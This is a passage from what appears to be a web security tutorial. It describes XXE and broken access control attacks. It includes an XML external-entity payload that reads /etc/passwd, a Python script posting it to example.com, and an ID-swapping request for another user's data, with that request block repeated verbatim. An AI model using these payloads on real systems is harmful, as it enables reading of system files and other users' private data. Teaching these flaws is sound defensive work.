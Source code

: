 **Example**: XXE Attack

**Code Snippet**:
```xml
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

**Attack Simulation**:
In a web application, an attacker could exploit XXE as follows:
```python
import requests

xml_payload = """<?xml version="1.0"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>"""
headers = {'Content-Type': 'application/xml'}
response = requests.post('http://example.com/xml', data=xml_payload, headers=headers)
print(response.text)
```

**Tools Required**:
- Burp Suite
- OWASP ZAP

#### 5. Broken Access Control

**Description**: Broken access control occurs when restrictions on what authenticated users are allowed to do are not properly enforced. Attackers can exploit these flaws to access unauthorized functionality or data.

**Example**: Horizontal Privilege Escalation

**Code Snippet**:
```python
import requests

# Attacker changes the user ID in the URL to access another user's data
url = 'http://example.com/user/2'
cookies = {'session': 'valid-session-token'}
response = requests.get(url, cookies=cookies)
print(response.text)
```

**Attack Simulation**:
An attacker could exploit broken access control as follows:
```python
import requests

url = 'http://example.com/user/2'
cookies = {'session': 'valid-session-token'}
response = requests.get(url, cookies=cookies)
print(response.text)
```
